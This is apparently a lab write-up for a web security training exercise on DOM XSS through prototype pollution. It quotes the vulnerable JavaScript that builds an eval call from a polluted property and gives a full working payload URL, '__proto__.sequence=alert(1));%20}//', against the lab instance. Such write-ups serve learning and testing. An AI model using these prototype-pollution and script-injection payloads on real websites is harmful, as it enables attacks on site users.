 # DOM XSS via an alternative prototype pollution vector
I guessed this lab looked like the former one. Therefore, I started by injecting `&__proto__[foo]=bar` which yielded nothing. However, `&__proto__.foo=bar` let me set a prototype property. 
While enumerating the javascript file that is being loaded in the main page, I found my sink. 
```js
window.macros = {};
window.manager = {params: $.parseParams(new URL(location)), macro(property) {
        if (window.macros.hasOwnProperty(property))
            return macros[property]
    }};
let a = manager.sequence || 1;
manager.sequence = a + 1;

eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');
```
manager.sequence is not being set - so we just need to set it to something that will give me an alert. This will give an alert: `alert(1));%20}//`
Therefore, full payload url is `https://0a5a00ca03c35bdc83dd6f6f00ad00ec.web-security-academy.net/?search=a&__proto__.sequence=alert(1));%20}//`